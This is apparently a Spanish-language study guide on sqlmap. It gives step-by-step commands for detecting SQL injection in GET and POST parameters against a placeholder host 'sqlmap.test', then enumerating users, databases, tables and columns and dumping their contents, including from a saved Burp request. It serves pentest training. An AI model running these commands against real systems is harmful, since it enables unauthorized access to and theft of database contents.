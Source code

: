 
**CADA INPUT QUE PUEDA METER EL USUARIO DEBE SER TESTEADO

SQLmap automatiza la identificación y explotación de inyecciones SQL.

```
sqlmap --help #para ver parámetros disponibles
```

**Los parámetros más fundamentales son

*-u* para indicarle a sqlmap la URL objetivo

*--data* para especificar el contenido de una solicitud HTTP POST

*-p* para decirle a la herramienta cuál es el parámetro vulnerable de una solicitud (id)

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U

De ésta forma indicamos la URL vulnerable, el parámetro vulnerable y la técnica a usar, la cual es UNION based.
```

SQLmap automáticamente detecta el tipo de base de datos del backend. Podemos pulsar enter o darle a "Y".

También podemos dejar que la herramienta realice todas las pruebas de MySQL dándole a enter otra vez o "Y" enter.

Después de realizar algunas pruebas, sqlmap confirma que el parámetro search es vulnerable a las inyecciones UNION based. Y pregunta si queremos probar más parámetros, le decimos que "N" enter.

*La herramienta detecta la versión del servidor web y la tecnología usada

Por ejemplo: PHP 5.4.36, Apache 2.2.22

*La herramienta también intenta detectar la versión de MySQL*

Para obtener la versión exacta añadir --banner al comando lanzado

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U --banner
```

Para ver las querys que realiza SQLmap introducimos el comando -v3 --fresh-queries

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U --banner -v3 --fresh-queries
```

Podemos enumerar los usuarios de la base de datos que la aplicación web puede ver.

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U --users
```

Para ver las bases de datos que están conectadas a la web app:

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U --dbs
```

Para ver las tablas de una base de datos específica:

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U -D nombreDB --tables
```

Para listar las columnas de una tabla de una base de datos específicas:

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U -D nombreDB -T nombreTABLA --columns
```

Para listar los contenidos de x columnas de una tabla de una db específica:

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U -D nombreDB -T nombreTABLA -C columna1,columna2 --dump
```

**CADA INPUT QUE PUEDA METER EL USUARIO DEBE SER TESTEADO (por ejemplo en un formulario de login, el parámetro user)

**Supongamos que el parámetro user es vulnerable a inyecciones SQL, así que vamos a sqlmap a explotar ésta vulnerabilidad.

```
sqlmap -u http://sqlmap.test/login.php --data='user=a&pass=a' -p user --technique=B --banner

De ésta forma le decimos a sqlmap que realice un POST REQUEST a login.php pasándole user y pass cómo parámetros del cuerpo de la petición, indicandole que inyecte en el parámetro user, con una técnica Booleana y que saque el banner/versión de la base de datos.
```

Le decimos que no siga la redirección: *n ENTER

Le decimos que no queremos que pruebe para otro servicio de bases de datos ya que ha encontrado que es MySQL. *ENTER*

Y le decimos que haga todas las pruebas. *ENTER*

sqlmap encuentra que user es vulnerable y pregunta si queremos probar en otros parámetros, no queremos. *ENTER*

***PARA ENUMERAR LAS BASES DE DATOS:

```
sqlmap -u http://sqlmap.test/login.php --data='user=a&pass=a' -p user --technique=B --dbs
```

Le decimos que no siga la redirección: *n ENTER*

***PARA ENUMERAR LAS TABLAS DE 1 BASE DE DATOS:

```
sqlmap -u http://sqlmap.test/login.php --data='user=a&pass=a' -p user --technique=B -D nombreDB --tables
```

***PARA ENUMERAR LAS COLUMNAS DE 1 TABLA DE 1 BASE DE DATOS:

```
sqlmap -u http://sqlmap.test/login.php --data='user=a&pass=a' -p user --technique=B -D nombreDB -T tabla --columns
```

***PARA ENUMERAR EL CONTENIDO DE 1 COLUMNA DE 1 TABLA DE 1 BASE DE DATOS:

```
sqlmap -u http://sqlmap.test/login.php --data='user=a&pass=a' -p user --technique=B -D nombreDB -T tabla -C columna1,columna2 --dump
```

*OTRA COSA QUE PODEMOS HACER ES GUARDAR LA REQUEST HECHA CON BURPSUITE Y PASARLA DIRECTAMENTE POR SQLMAP

Vamos a la request interceptada por el proxy, clic derecho, copy to file.

Lo guardamos donde queramos como bloglogin.req

```
sqlmap -r /ruta/absoluta/bloglogin.req -p user --technique=B --banner
```

SI SACAMOS INFORMACIÓN LA CUAL HALLAMOS SACADO ANTES, LA QUERY NO LA HACE, USA LA INFORMACIÓN GUARDADA DE ANTERIORES QUERYS

la cual se almacena en:

/usr/share/sqlmap/output/sqlmap.test

ó

/usr/share/sqlmap/output/xvictima/sqlmap.test

Si queremos eliminar la información que hemos sacado antes:

*usar parámetro --flush-session*

